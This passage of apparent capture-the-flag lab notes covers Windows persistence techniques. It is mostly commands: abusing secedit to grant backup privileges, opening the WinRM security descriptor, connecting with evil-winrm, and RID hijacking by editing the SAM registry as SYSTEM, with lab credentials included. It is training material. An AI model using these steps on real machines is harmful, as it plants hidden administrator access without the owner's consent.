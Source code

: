 * Special Privileges and Security Descriptors:

```cmd
#the Backups Operators group has SeBackupPrivilege and SeRestorePrivilege enabled
#we can assign these privileges to any user

#export current config to temp file
secedit /export /cfg config.inf

#edit config.inf file such that the user 'thmuser2' is added in the privileges required

#convert .inf to .sdb and load config file
secedit /import /cfg config.inf /db config.sdb

secedit /configure /db config.sdb /cfg config.inf

#now edit security descriptor for WinRM
#in powershell
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
#add and give full permissions to 'thmuser2'

#we can connect to WinRM from attacker machine now
#thmuser2:Password321
evil-winrm -i 10.10.113.252 -u thmuser2 -p Password321

net user thmuser2

C:\flags\.\flag2.exe
```

* RID Hijacking:

```cmd
#we can tamper with the registry value of RID (relative ID)
#and make Windows assign Admin access token to unprivileged user
#by giving them both same RIDs
#admin RID=500

#get RIDs
wmic useraccount get name,sid
#RID is last part of SID
#thmuser3 RID is 1010

cd C:\tools\pstools

#running Regedit using SYSTEM account to access SAM
PsExec64.exe -i -s regedit

#in regedit, navigate to HKLM\SAM\SAM\Domains\Account\Users
#here, RID is in hex, so hex of 1010 is 0x3F2
#in that, edit the 'F' value from F203 to F401
#it uses little-endian notation, so the bytes are reversed

#now we can use RDP to login as thmuser3
#thmuser3:Password321
xfreerdp /u:thmuser3 /p:Password321 /v:10.10.113.252

C:\flags\.\flag3.exe
```
